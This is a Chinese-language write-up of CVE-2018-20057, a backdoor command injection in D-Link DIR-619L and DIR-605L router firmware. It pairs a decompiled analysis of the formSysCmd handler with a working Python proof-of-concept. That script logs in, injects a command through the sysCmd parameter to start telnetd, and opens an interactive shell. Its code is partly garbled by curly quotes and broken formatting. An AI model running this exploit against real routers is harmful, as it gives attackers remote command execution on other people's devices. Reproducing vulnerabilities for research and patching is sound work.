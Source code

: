 ```yaml
---
title: （CVE-2018-20057）D-Link DIR-619L&605L 命令注入漏洞
id: zhfly3381
---
```


# （CVE-2018-20057）D-Link DIR-619L&605L 命令注入漏洞

## 一、漏洞简介

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备，在/bin/boa文件的formSysCmd函数存在后门，导致攻击者在身份认证后可以通过访问

```
http://[ip]//goform/formSysCmd并指定sysCmd参数，从而实现远程命令注入。 
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

本漏洞的路由器运行环境与CVE-2018-20056相同。

## 二、漏洞影响

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备。

## 三、复现过程

### 漏洞分析

查看ghidra中的反编译代码，在formSysCmd中，首先获取sysCmd参数，然后通过snprintf写入栈中变量，直接调用system函数执行该参数内容。

```
void formSysCmd(undefined4 uParm1)
{
  undefined4 uVar1;
  char *pcVar2;
  char acStack120 [104]; `uVar1 = websGetVar(uParm1,“submit-url”,&DAT_004ac874);

//获取post参数sysCmd，该参数可由用户控制

pcVar2 = (char *)websGetVar(uParm1,“sysCmd”,&DAT_004ac874);

if (*pcVar2 != 0) {

//将sysCmd写入栈中，并调用system执行

snprintf(acStack120,100,"%s 2>&1 > %s",pcVar2,"/tmp/syscmd.log");

system(acStack120);

}

websRedirect(uParm1,uVar1);

return;

}` 
```

### 漏洞复现

该漏洞是在身份认证成功之后才可实现命令注入，需要先登录输入用户名和口令。由于是在qemu中模拟固件，通过apmib_get读取路由器本地配置无法实现，所以在劫持了apmib_get函数之后，login输入的用户名和密码暂时填为空。在真机上操作时，换成真实的用户名和密码即可。

```
import requests
import sys
import struct
import base64
from pwn import *
context(arch='mips',endian='big',log_level='debug') `ip=‘192.168.84.129’

port=101

def login(user,password):

postData = {

‘login_name’:’’,

‘curTime’:‘1234’,

‘FILECODE’:’’,

‘VER_CODE’:’’,

‘VERIFICATION_CODE’:’’,

‘login_n’:user,

‘login_pass’:base64.b64encode(password),

}

response = requests.post(‘http://’+ip+’/goform/formLogin’,data=postData)

#print response.url

def syscmd(cmd):

postData = {

‘sysCmd’:cmd,

‘submit-url’:‘1234’,

}

response = requests.post(‘http://’+ip+’/goform/formSysCmd’,data=postData)

#print response.url

def inter():

p=remote(ip,port)

p.interactive()

if **name** == “**main**”:

login(’’,’’)#这里要写实际的用户名和密码，例如admin 12345

syscmd('telnetd -p '+str(port))

inter()` 
```

另由于qemu模拟时，/dev下没有pty设备，导致telnet连接不能实现，但是端口是已经打开了：

![image](../img/3ae319536d3b869a8084b9f9a4774ebb.png)

![image](../img/092262c8303782661ff4fb6c46a54c8a.png)